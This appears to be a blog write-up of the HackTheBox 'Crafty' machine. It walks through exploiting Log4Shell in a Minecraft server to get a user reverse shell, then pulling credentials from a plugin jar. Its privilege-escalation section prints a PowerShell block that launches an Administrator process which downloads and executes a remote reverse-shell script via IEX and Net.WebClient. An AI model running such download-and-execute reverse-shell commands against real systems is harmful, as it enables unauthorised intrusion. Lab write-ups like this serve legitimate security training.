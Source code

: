 ```yaml
---
layout: post
title: "Crafty dac548b6abac405aab1cf0e7f0e9bf69"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Crafty

HackTheBox: Easy

## 1: Enumeration

- nmap scanning

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled.png' | relative_url }})

There are two http services, at 80 port we didn’t find anything useful

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_1.png' | relative_url }})

5985 Port has a vulnerability, let’s see what can we do (CVE-2021-44228)

 This vulnerability, also known as Log4Shell or LogJam, allows remote code execution (RCE) attacks due to a flaw in the JNDI (Java Naming and Directory Interface) feature of Log4j.

Exploiting this vulnerability, attackers could craft malicious JNDI URLs that, when processed by Log4j, would result in the execution of arbitrary code. 

## 2: User flag

We clone the POC’s 

```bash
git clone https://github.com/kozmer/log4j-shell-poc
```

Change the cmd default(Linux) to windows one 

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_2.png' | relative_url }})

Download the right java version

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_4.png' | relative_url }})

Download the minecraft client to establish connection with minecraft.

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_5.png' | relative_url }})

Set the environment variables and activate them

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_6.png' | relative_url }})

---

The ‘rlwrap’ command is a utility used in Unix operating systems and it just helps the experience using any command line program

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_7.png' | relative_url }})

---

Start the poc using the following command and send the request

80 Is the port that will be open to establish connection.

4444 will be the port where we are going to receive the rev shell

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_8.png' | relative_url }})

Establish connection with the minecraft client

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_9.png' | relative_url }})

Send the command and get the user shell

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_10.png' | relative_url }})

---

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_11.png' | relative_url }})

## 3: Priv esc

> Looking around(C:\Users\svc_minecraft\server\plugins) we found a .jar file where we could find credentials, so let’s proceed to download it using netcat
> 

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_12.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_13.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_14.png' | relative_url }})

We used this decompiler and we opened the file. 

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_15.png' | relative_url }})

Good luck

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_16.png' | relative_url }})

As we don’t have any open port to access as Administrator we have two options:

1. Using msfvenom create a evil .exe and execute it with administrator credentials
2. Create a revese power shell using those credentials, i have never done this technique so it looks interesting
    
    ![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_17.png' | relative_url }})
    
- Set up a python server with the revshell and try to trigger it using:

```powershell
#Create a secure password
$SecPass = ConverTo-SecureString 'password' -AsPlainText -Force
#Crearte a credential
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)
#Execute a script which starts on powershell
Start-Process -FilePath "powershell" -argumentlist 
#First argument and download and execurte the script .ps1
"IEX(New-Object Net.WebClient).downloadString('http://ip:port/revshel.ps1')"
#Execute it as admin
-Credential $cred
```

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_18.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_19.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_20.png' | relative_url }})